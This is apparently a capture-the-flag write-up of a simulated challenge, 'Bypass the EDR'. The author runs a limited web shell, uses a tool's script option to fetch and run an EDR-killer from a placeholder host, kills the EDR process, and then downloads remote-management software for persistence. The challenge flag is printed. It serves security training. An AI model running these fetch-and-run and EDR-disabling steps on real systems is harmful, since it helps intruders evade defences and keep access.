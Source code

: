 \# O7: Bypass the EDR

\#\# Problem Description  
You cashed in your creds and now have initial access to a host in The Lucky Lion's internal network \- one step closer to payday\!\! You better make sure you've got more than one way into this environment in case someone kicks you out \- perhaps it would be prudent to download and install some remote management software for future use.

That might be easier said than done, though... you expect The Lucky Lion's security tools might give you trouble. Fortunately, another member of The Mound has written an EDR killer ("f4c3st4b") specific to the EDR you identified earlier. The only issue might be getting it on the host.

\#\# Objectives  
\- Download AnyDesk on the victim machine

Required tools:  
\- Web Shell: \`https://target-httpd.chals.io/shell/edr.html\`  
\- AnyDesk SIMULATED LINK: \`https://anydesk.com.example/downloads/anydesk.bin\`  
\- "f4c3st4b" EDR Killer SIMULATED LINK: \`https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab\`

\*\*Note: The simulated links are not real and do not go anywhere.

\#\# Approach and Solution

What a challenge\! I struggled a lot with this one, primarily because many of the usual bash commands I rely on either didn’t exist or didn’t work as expected. In this case, my own familiarity with common tools became a major obstacle.

Let’s start with the web shell. It’s completely simulated in the browser using JavaScript, allowing the CTF to handle hundreds of participants working on this problem simultaneously. However, it’s *extremely* limited in functionality. A good tip: in any new Unix-like environment, always run the `help` command to see what’s available. Here’s what we get:

![image](https://github.com/user-attachments/assets/adfee429-fcf2-4189-86d3-6805c97bcb29)


Yes, that’s every command available in this shell. All of them. Yep.

The most glaring issue is that there’s no command for creating files. We have `mkdir`, but no `touch` or anything similar. Attempts to use `cat > example.txt` or `echo "sample text" > example.txt` also failed:

![image](https://github.com/user-attachments/assets/c1fd195c-3ba3-43c9-8f10-9191e77edc40)


Since file creation is off the table, I turned to exploring the system for alternatives. After some searching, I found a few interesting things:

* `narsh`, located in `/bin`, which is the shell we’re in.  
* `cguard`, located in `/usr/bin`  
* `cguardd` (yes, there are two), also in `/usr/bin`  
* `cguard.sentinel`, located in `/var/lib`

Running `--help` on each of these turned up something interesting for `cguard`:

![image](https://github.com/user-attachments/assets/7d8cf7a9-965c-4062-82e0-b4c135fc97bf)


It can be used as a command\! Even better, there’s a `--script` option that allows us to download and run scripts.

So, I used this command to download `facestab`:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

This downloaded the `facestab` file into the `/tmp` directory.

After navigating to `/tmp` and running `./facestab -h`, I got this output:

![image](https://github.com/user-attachments/assets/f46e41ce-36a8-4f4f-b972-bc916b8b4ba2)


The usage of `facestab` revolves around PIDs. Luckily, we have access to the `ps` command, as noted earlier. Running `ps --help` shows a `-A` option that lists all processes. Running `ps -A` gives us this:

![image](https://github.com/user-attachments/assets/a4ac9ad0-65e7-4a98-96d0-c55cfbdddfd4)


From prior knowledge, we know `narsh` is the shell, so its PID isn’t the one we need. The target is likely PID 10\.

However, when I tried `./facestab -p 10` in `/tmp`, I got an “invalid permissions” error. Our permissions weren’t high enough\!

This was the point where I got stuck for quite a while. Here’s a list of failed attempts:

1. Tried using `chmod` to change permissions (no luck).  
2. Tried forcing `cat` to create a file.  
3. Tried forcing `echo` to create a file.  
4. Attempted to write a script outside the environment and download it using curl (curl is blocked until we disable the EDR).  
5. Attempted to download and run a script via `cguard` (received a “try again” error).  
6. Tried creating a directory with 777 permissions and placing files there (no luck due to the lack of file creation options).

Reading the source code (which was a unique experience on a phone), I realized that the key was hinted at in the `cguard` description all along: it downloads AND runs scripts. The missing step was to re-download the script and attach the PID argument. After refreshing for a clean environment, I ran this:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab -p 10`

This returned “successfully killed 10.” Checking the system showed that `cguard.sentinel` was gone—we had successfully disabled the EDR.

The final step was to download AnyDesk. We needed to do this in a directory with full read/write/execute permissions. Running `ls -l` revealed that `/tmp` has 777 permissions:

![image](https://github.com/user-attachments/assets/a4c6def1-4ecb-4a41-b625-440eaddb8441)


So, I navigated to `/tmp` and ran curl:

`curl https://anydesk.com.example/downloads/anydesk.bin`

After downloading, we obtained the flag:

![image](https://github.com/user-attachments/assets/4ae71033-1757-4217-9722-9e54108b85b7)


`wicys2024{anydeskanytime}`

